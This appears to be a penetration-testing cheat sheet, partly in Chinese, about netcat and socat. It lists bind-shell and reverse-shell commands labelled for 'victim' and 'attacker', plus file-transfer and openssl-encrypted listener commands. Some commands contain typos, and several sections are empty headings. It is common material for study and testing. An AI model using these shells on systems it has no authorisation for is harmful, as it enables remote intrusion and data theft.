 # Practical Tools

一些渗透场景中, 目标环境中一般已有的工具

## Netcat

utility which reads and writes data across network connections, using TCP or UDP protocols

### Connecting to a TCP/UDP Port

- `n` skip dns name resolution
- `v` add some verbosity

```bash
nc -nv ip port
```

### Listening on a TCP/UDP Port

- `n` diable dns name resolution
- `l` create a listener
- `p` specify the listening port number
- `v` add some verbosity
- `e` specify filename to exec after connect
- `c` specify shell commands to exec after connect
- `k` forces nc to stay listening for another connection after its current connection is completed

```bash
nc -nlvp port
```

### Transferring Files with Netcat

1. use redirection

```bash
# receive
nc -nlvp port > file

# send
nc -nv ip port < file
```

### Remote Administration with Netcat

1. bind shell

```bash
# victim
nc -nlvp port -e bash

# attacker
nc -nv ip port
```

2. reverse shell

```bash
# attacker
nc -nlvp export 

# victim
nc -nv ip port -e bash

```

## Socat

1. netcat & socat

```bash
# listen on 80
nc -lvp localhost 443
socat TCP4-LISTEN:443 STDOUT

# connect to  remote_ip:80
nc remote_ip 80
socat - TCP4:remote_ip:80
```

2. Socat File Transfers

```bash
# sender
socat TCP4-LISTEN:443,fork file:xxxxx

# receiver
socat - TCP4:remote_ip:80 file:xxxxx,create
```

3. Socat Reverse Shells

```bash
# reverse shell
## attacker
socat -d -d TCP4-LISTEN:port STDOUT
## victim
socat TCP4:attacker_ip:port EXEC:/bin/bash

# bind shell
## victim
socat -d -d TCP4-LISTEN:prot STDOUT EXEC:/bin/bash
## attacker
socat - TCP4:attacker_ip:port STDOUT
```

4. Socat with openssl

```bash
# generate a key
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt

# combine .key and .crt into a .pem
cat xxxx.key xxx.crt > xxx.pem

# listen
socat OPENSSL-LISTEN:port,cert=xxx.pem,verify=0

# connect
socat - OPENSSL:ip:port,verify=0
```

## Powershell & Powercat

## wireshark

## tcpdump
